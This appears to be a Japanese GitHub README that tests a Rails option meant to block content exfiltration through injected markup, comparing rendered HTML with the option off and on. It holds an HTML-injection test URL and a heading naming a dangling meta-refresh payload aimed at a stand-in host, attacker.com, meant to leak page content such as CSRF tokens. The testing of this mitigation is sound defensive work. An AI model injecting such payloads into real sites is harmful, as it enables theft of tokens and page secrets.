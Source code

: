 # rails-content_exfiltration_prevention_helper-test

https://github.com/rails/rails/commit/cb5765a12751ca03866a89cf19fefcbc2d93a8ea で追加されたオプションconfig.action_view.prepend_content_exfiltration_preventionの動きを確かめる

## 前提
- Google Chrome 104.0.5112.102（Official Build）（64 bit）

## `<meta http-equiv="refresh" content='0;URL=https://attacker.com?`

http://localhost:3000/?xss1=%3Cmeta%20http-equiv=%22refresh%22%20content=%22100;URL=https://www.example.com%22%3E

### config.action_view.prepend_content_exfiltration_prevention = false

```
<!DOCTYPE html>
<html>
  <head>
    <title>Myapp</title>
    <meta name="viewport" content="width=device-width,initial-scale=1">
    <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="2L1QNvV7qZ49PqMpLYWU9v_eSsnLvSnFg-R4EKE5D8mvRr9TfVIoi856MiVFc7P88EGvKXE_FZbLxRaxXWLWYg" />
    
    <meta http-equiv="refresh" content="100
    <link rel="stylesheet" href="/assets/application-e0cf9d8fcb18bf7f909d8d91a5e78499f82ac29523d475bf3a9ab265d5e2b451.css" data-turbo-track="reload" />
  </head>

  <body>
    

<form class="button_to" method="post" action="http://www.example.com"><button type="submit">Hello</button><input type="hidden" name="authenticity_token" value="iZZQ6d9uncRnDqe7Oi66KMlW9z6ULCv4vuhxcK4iRfQvMzSW-eEnMTxDqtx3yR6FSKbcNMXeWnpgGJ8KZ7-wKg" autocomplete="off" /></form>

<h1>secret</h1>

  </body>
</html>
```

### config.action_view.prepend_content_exfiltration_prevention = true

```
<!DOCTYPE html>
<html>
  <head>
    <title>Myapp</title>
    <meta name="viewport" content="width=device-width,initial-scale=1">
    <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="B4Y1AN2k94FjNA6kkzwQdQQ4AedBDK3f6DLbWB6kxsFwfdplVY12lJBwn6j7yjd_C6fkB_uOkYygE7X54v8fag" />
    
    <meta http-equiv="refresh" content="100
    <link rel="stylesheet" href="/assets/application-e0cf9d8fcb18bf7f909d8d91a5e78499f82ac29523d475bf3a9ab265d5e2b451.css" data-turbo-track="reload" />
  </head>

```